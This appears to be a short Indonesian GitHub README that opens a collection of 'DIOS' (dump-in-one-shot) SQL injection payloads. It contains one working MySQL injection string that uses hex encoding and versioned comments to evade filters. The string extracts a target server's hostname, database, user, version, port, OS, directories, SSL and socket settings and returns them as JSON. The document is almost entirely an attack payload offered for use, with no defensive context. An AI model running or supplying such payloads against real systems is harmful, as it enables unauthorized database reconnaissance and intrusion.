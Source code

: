 # Kumpulan DIOS SQLi


## SQLi information gathering - JSON

dios ini akan mengekstrak informasi target dan mengembalikan hasil dengan format JSON
```
/*!00000concat*/(0x3c73716c696e6a656374696f6e3e,0x7b,0x22686f73746e616d65223a22,/*!00000@@hostname*/,0x222c,0x226461746162617365223a22,/*!00000database()*/,0x22,0x2c2275736572223a22,/*!00000user()*/,0x22,0x2c,0x2276657273696f6e223a22,/*!00000@@version*/,0x222c,0x22706f7274223a22,/*!00000@@PORT*/,0x222c,0x226f73223a22,/*!00000@@version_compile_os*/,0x222c,0x22617263686974656374757265223a22,/*!00000@@VERSION_COMPILE_MACHINE*/,0x222c,0x2262617365646972223a22,/*!00000@@BASEDIR*/,0x222c,0x2264617461646972223a22,/*!00000@@datadir*/,0x222c,0x2273736c223a22,/*!00000@@GLOBAL.have_ssl*/,0x222c,0x226f70656e5f73736c223a22,/*!00000@@HAVE_OPENSSL*/,0x222c,0x2273796d6c696e6b223a22,/*!00000@@GLOBAL.have_symlink*/,0x222c22736f636b6574223a22,/*!00000@@SOCKET*/,0x22,0x7d,0x3c2f73716c696e6a656374696f6e3e)
```
